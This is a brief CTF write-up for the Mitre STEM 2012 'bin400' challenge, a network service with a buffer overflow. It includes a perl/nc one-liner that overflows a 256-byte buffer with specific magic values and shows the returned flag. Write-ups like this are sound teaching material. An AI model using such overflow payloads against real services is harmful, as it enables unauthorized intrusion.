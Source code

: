 ```yaml
---
title: 'Mitre STEM CTF 2012 &mdash; bin400'
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: Mitre STEM
year: 2012
---
```

## Overview

[bin400][1] is a network service has a buffer overflow vulnerability &mdash; it prints the key if some magic numbers are changed and otherwise prints itself.

<!--more-->

## Writeup

After realizing that the question was terribly worded and the service was not available publicly, we finally connect to the service and are rewarded with a binary. Its quickly apparent we're supposed to overflow a buffer and change some magic value.

```
% cat &lt;(perl -e 'print "A"x256, "\x13\x0f\x17\x7f", "\x54\x4e\x4f\x44", "\x42\x7d\x3d\x5e", "\n"') - | tsocks nc 10.0.0.171 3490
MCA-A4C52829
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.tar.gz